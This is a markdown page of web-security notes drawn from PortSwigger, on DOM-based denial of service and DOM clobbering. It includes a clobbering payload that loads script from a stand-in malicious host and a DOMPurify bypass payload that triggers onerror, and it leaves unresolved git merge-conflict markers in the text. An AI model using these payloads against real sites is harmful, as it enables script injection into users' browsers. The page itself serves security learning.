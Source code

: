 ### Denial of Service

From: [https://portswigger.net/web-security/dom-based/denial-of-service](https://portswigger.net/web-security/dom-based/denial-of-service)

#### How

DOM-based denial-of-service vulnerabilities arise when a script passes** attacker-controllable data in an unsafe way to a problematic platform API**, such as an API whose invocation can cause the user's computer to consume **excessive amounts of CPU or disk space**. This may result in side effects if the browser restricts the functionality of the website, for example, by rejecting attempts to store data in `localStorage` or killing busy scripts.

#### Sinks

```
requestFileSystem()
RegExp()
```

## **DOM Clobbering**

A common pattern used by JavaScript developers is:

`var someObject = window.someObject || {};`

If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor. Consider the following code:

```python
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
```

To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:

`<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>`

<<<<<<< HEAD
Injecting that data `window.someObject.url` is going to be `href=//malicious-website.com/malicious.js`

**Trick**: `DOMPurify` allows you to use the **`cid:`** protocol, which **does not URL-encode double-quotes**. This means you can **inject an encoded double-quote that will be decoded at runtime**. Therefore, injecting something like `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">` will make the HTML encoded `&quot;` to be **decoded on runtime** and **escape** from the attribute value to **create** the **`onerror`** event.
=======
Injecting that data `window.someObject.url `is going to be `href=//malicious-website.com/malicious.js`
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b
